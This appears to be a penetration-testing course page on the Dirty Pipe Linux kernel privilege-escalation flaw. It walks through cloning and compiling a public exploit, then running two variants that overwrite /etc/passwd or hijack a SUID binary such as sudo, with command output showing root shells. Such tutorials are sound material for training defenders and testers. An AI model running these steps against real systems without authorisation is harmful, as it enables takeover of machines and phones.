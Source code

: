 # Dirty Pipe

---

A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the [Dirty Cow](https://dirtycow.ninja/) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the `/etc/passwd` file and remove the password prompt for the root. This would allow us to log in with the `su` command without the password prompt.

To exploit this vulnerability, we need to download a [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) and compile it on the target system itself or a copy we have made.

#### Download Dirty Pipe Exploit

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

After compiling the code, we have two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.

#### Verify Kernel Version

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Exploitation

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

#### Find SUID Binaries

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

#### Exploitation

Dirty Pipe

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```